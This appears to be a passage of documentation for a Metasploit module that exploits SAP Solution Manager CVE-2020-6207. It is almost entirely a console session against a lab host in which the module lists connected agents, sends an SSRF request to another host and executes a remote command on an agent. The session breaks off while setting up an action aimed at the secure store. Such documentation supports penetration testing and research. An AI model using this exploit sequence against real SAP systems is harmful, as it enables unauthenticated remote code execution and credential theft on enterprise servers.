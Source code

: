 ## Scenarios

### Vulnerable SolMan 7.2 running on agent: test_linux with OS: Linux and java version: 1.8

```
msf6 > workspace -a SAP_TEST
[*] Added workspace: SAP_TEST
[*] Workspace: SAP_TEST
msf6 > use auxiliary/admin/sap/cve_2020_6207_solman_rce
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > set ACTION LIST
ACTION => LIST
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > set RHOST 172.16.30.46
RHOST => 172.16.30.46
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > run
[*] Running module against 172.16.30.46

[*] Getting a list of agents connected to the Solution Manager: 172.16.30.46
[+] Successfully retrieved agent list:
Connected Agents List
=====================

 Server Name   Host Name              Instance Name  OS Name                 Java Version
 -----------   ---------              -------------  -------                 ------------
 test_windows  sap731.corp.test.com   SMDA97         Windows Server 2008 R2  1.6.0_29
 test_linux    saperp7.corp.test.com  SMDA98         Linux                   1.8.0_25

[*] Auxiliary module execution completed
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > set ACTION SSRF
ACTION => SSRF
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > set AGENT test_linux
AGENT => test_linux
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > set SSRF_METHOD PUT
SSRF_METHOD => PUT
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > set SSRF_URI http://192.168.50.3:7777/
SSRF_URI => http://192.168.50.3:7777/
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > run
[*] Running module against 172.16.30.46

[*] Enable EEM on agent: test_linux
[*] Start script: IqsDdgpc5Iwu with SSRF payload on agent: test_linux
[*] Stop script: IqsDdgpc5Iwu on agent: test_linux
[*] Delete script: IqsDdgpc5Iwu on agent: test_linux
[+] Send SSRF: 'PUT http://192.168.50.3:7777/ HTTP/1.1' from agent: test_linux
[*] Auxiliary module execution completed
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > set ACTION EXEC
ACTION => EXEC
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > set AGENT test_linux
AGENT => test_linux
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > set COMMAND ping -c 4 192.168.50.3
COMMAND => ping -c 4 192.168.50.3
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > run
[*] Running module against 172.16.30.46

[*] Enable EEM on agent: test_linux
[*] Start script: Lu5BnHgzVehn with RCE payload on agent: test_linux
[*] Stop script: Lu5BnHgzVehn on agent: test_linux
[*] Delete script: Lu5BnHgzVehn on agent: test_linux
[+] Execution command: 'ping -c 4 192.168.50.3' on agent: test_linux
[*] Auxiliary module execution completed
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > set ACTION SECSTORE
ACTION => SECSTORE
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > set AGENT test_linux
```

[1]: https://conference.hitb.org/hitblockdown002/materials/D2T1%20-%20SAP%20RCE%20-%20The%20Agent%20Who%20Spoke%20Too%20Much%20-%20Yvan%20Genuer.pdf
[2]: https://i.blackhat.com/USA-20/Wednesday/us-20-Artuso-An-Unauthenticated-Journey-To-Root-Pwning-Your-Companys-Enterprise-Software-Servers-wp.pdf
[3]: https://blogs.sap.com/2016/02/16/solution-manager-72-installation-and-configuration-i-installations/